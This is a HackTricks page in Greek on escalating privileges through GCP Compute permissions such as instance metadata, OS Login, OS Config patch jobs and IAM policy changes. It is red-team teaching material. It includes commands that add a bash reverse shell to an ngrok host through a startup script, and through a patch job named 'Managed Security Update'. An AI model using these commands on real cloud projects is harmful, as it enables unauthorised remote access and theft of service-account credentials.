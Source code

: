 # GCP - Compute Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (δίκτυο) στο GCP ελέγξτε:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Σημειώστε ότι για να εκτελέσετε όλες τις επιθέσεις ανύψωσης προνομίων που απαιτούν να τροποποιήσετε τα μεταδεδομένα της παρουσίας (όπως η προσθήκη νέων χρηστών και SSH κλειδιών) είναι **αναγκαίο να έχετε δικαιώματα `actAs` πάνω στο SA που είναι συνδεδεμένο με την παρουσία**, ακόμη και αν το SA είναι ήδη συνδεδεμένο!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Με αυτή την άδεια μπορείτε να **τροποποιήσετε** τις πληροφορίες **μεταδεδομένων** μιας **παρουσίας** και να αλλάξετε τα **εξουσιοδοτημένα κλειδιά ενός χρήστη**, ή να **δημιουργήσετε** έναν **νέο χρήστη με δικαιώματα sudo**. Επομένως, θα μπορείτε να εκτελέσετε μέσω SSH σε οποιαδήποτε VM παρουσία και να κλέψετε το GCP Service Account με το οποίο εκτελείται η παρουσία.\
Περιορισμοί:

* Σημειώστε ότι τα GCP Service Accounts που εκτελούνται σε VM παρουσίες από προεπιλογή έχουν **πολύ περιορισμένο πεδίο**
* Θα χρειαστεί να είστε **σε θέση να επικοινωνήσετε με τον SSH** διακομιστή για να συνδεθείτε

Για περισσότερες πληροφορίες σχετικά με το πώς να εκμεταλλευτείτε αυτή την άδεια ελέγξτε:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Μπορείτε επίσης να εκτελέσετε αυτή την επίθεση προσθέτοντας νέο startup-script και επανεκκινώντας την παρουσία:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Αυτή η άδεια δίνει τα **ίδια προνόμια με την προηγούμενη άδεια** αλλά σε συγκεκριμένες περιπτώσεις αντί για ολόκληρο το έργο. Οι **ίδιες εκμεταλλεύσεις και περιορισμοί όπως στην προηγούμενη ενότητα ισχύουν**.

### `compute.instances.setIamPolicy`

Αυτού του είδους η άδεια θα σας επιτρέψει να **παραχωρήσετε στον εαυτό σας έναν ρόλο με τις προηγούμενες άδειες** και να κλιμακώσετε τα προνόμια εκμεταλλευόμενοι αυτές.

### **`compute.instances.osLogin`**

Εάν **το OSLogin είναι ενεργοποιημένο στην περίπτωση**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στην περίπτωση. Δεν **θα έχετε δικαιώματα root** μέσα στην περίπτωση.

{% hint style="success" %}
Για να συνδεθείτε επιτυχώς με αυτή την άδεια μέσα στην VM περίπτωση, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο στην VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Εάν **το OSLogin είναι ενεργοποιημένο στην περίπτωση**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στην περίπτωση. Θα έχετε **δικαιώματα root** μέσα στην περίπτωση.

{% hint style="success" %}
Για να συνδεθείτε επιτυχώς με αυτή την άδεια μέσα στην VM περίπτωση, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνδεδεμένο στην VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Είναι δυνατόν να **δημιουργήσετε μια εικονική μηχανή με έναν ανατεθειμένο Λογαριασμό Υπηρεσίας και να κλέψετε το token** του λογαριασμού υπηρεσίας αποκτώντας πρόσβαση στα μεταδεδομένα για να κλιμακώσετε τα προνόμια σε αυτόν.

Το σενάριο εκμετάλλευσης για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Εάν έχετε τις **`osconfig.patchDeployments.create`** ή **`osconfig.patchJobs.exec`** άδειες μπορείτε να δημιουργήσετε μια [**εργασία patch ή ανάπτυξη**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Αυτό θα σας επιτρέψει να κινηθείτε οριζόντια στο περιβάλλον και να αποκτήσετε εκτέλεση κώδικα σε όλες τις υπολογιστικές περιπτώσεις εντός ενός έργου.

Σημειώστε ότι αυτή τη στιγμή **δεν χρειάζεστε άδεια `actAs`** πάνω στο SA που είναι συνδεδεμένο στην περίπτωση.

Εάν θέλετε να εκμεταλλευτείτε αυτό χειροκίνητα θα χρειαστεί να δημιουργήσετε είτε μια [**εργασία patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ή** [**ανάπτυξη**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Για μια εργασία patch εκτελέστε:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Για να αναπτύξετε μια ανάπτυξη διορθώσεων:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Το εργαλείο [patchy](https://github.com/rek7/patchy) θα μπορούσε να έχει χρησιμοποιηθεί στο παρελθόν για την εκμετάλλευση αυτής της κακής ρύθμισης (αλλά τώρα δεν λειτουργεί).

**Ένας επιτιθέμενος θα μπορούσε επίσης να το εκμεταλλευτεί για επιμονή.**

### `compute.machineImages.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για την εικόνα υπολογιστή.

### `compute.snapshots.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για ένα στιγμιότυπο δίσκου.

### `compute.disks.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για έναν δίσκο.

### Παράκαμψη Πεδίων Πρόσβασης

Ακολουθώντας αυτόν τον σύνδεσμο θα βρείτε μερικές [**ιδέες για να προσπαθήσετε να παρακάμψετε τα πεδία πρόσβασης**](../).

### Τοπική Κλιμάκωση Δικαιωμάτων σε GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
